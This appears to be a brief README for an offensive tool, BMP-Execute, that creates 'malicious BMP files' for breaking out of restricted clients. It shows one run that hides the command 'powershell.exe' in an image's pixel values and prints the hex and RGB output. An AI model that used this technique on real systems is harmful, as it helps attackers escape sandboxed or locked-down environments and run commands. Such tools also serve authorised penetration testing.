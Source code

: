 # BMP-Execute
Create malicious BMP files for client breakous

```./BMP_Execute.py -c powershell.exe -o test
Command is  powershell.exe
Output file is  test
Cmd in hex is:  b'706f7765727368656c6c2e657865'
RGB = (10, 0, 0)
RGB = (13, 10, 13)
RGB = (119, 111, 112)
RGB = (115, 114, 101)
RGB = (108, 101, 104)
RGB = (101, 46, 108)
RGB = (0, 101, 120)```
